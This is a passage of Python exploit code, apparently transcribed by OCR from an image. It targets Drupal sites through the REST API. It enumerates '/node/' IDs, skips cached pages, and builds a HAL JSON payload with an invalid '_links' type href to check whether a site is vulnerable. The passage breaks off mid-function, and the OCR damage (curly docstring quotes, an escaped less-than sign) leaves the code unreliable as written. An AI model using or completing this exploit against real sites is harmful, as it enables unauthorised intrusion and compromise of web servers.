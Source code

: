 return False 
```

def find_article(base: str, f: int = 1, l: int = 100):

“”"

Find a target article that does not 404 and is not cached

“”"

```
while f &lt; l:
    u = build_url(base, '/node/', str(f))
    r = requests.get(u)

    if check_drupal_cache(r):
        print(f'[x] Node enum found a cached article at: {f}, skipping')
        f += 1
        continue

    # found an article?
    if r.status_code == 200:
        return f
    f += 1 
```

def check(base: str, node_id: int) -> bool:

“”"

Check if the target is vulnerable.

“”"

```
payload = {
    "_links": {
        "type": {
            "href": f"{urljoin(base, '/rest/type/node/INVALID_VALUE')}"
        }
    },
    "type": {
        "target_id": "article"
    },
    "title": {
        "value": "My Article"
    },
    "body": {
        "value": ""
    }
}
